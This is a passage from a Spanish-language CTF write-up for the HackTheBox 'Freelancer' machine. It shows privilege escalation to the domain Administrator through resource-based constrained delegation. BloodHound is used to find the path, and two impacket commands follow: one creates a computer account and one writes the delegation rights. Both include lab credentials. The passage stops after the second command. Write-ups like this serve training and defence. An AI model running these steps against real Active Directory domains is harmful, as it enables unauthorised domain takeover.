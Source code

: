 Para escalar hasta el administrador estaremos usando BloodHound, busque la relacion que existe entre _lorra199_ y el _Administrator_ y tenemos un path a seguir, podemos escalar.

![BloodHound](../../../../../assets/Freelancer/bloodhount.png)

Empecemos, lo primero que tendremos que hacer es crear un SPN(Identificador de kerberos que asocia un servicio con una cuenta en el AD).

```
impacket-addcomputer -method SAMR -computer-name 'Atr4x$' -computer-pass 'Summer2018!' -dc-host 10.10.11.5 -domain-netbios freelancer.htb 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
```
Tenemso que modificar el method porque o sino entra en conflicto con los permisos ssl. ¿Para que hacemos esto? Lo hacemos para conseguir un TGS 

```
impacket-rbcd -delegate-from 'Atr4x$' -delegate-to 'dc$' -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
```


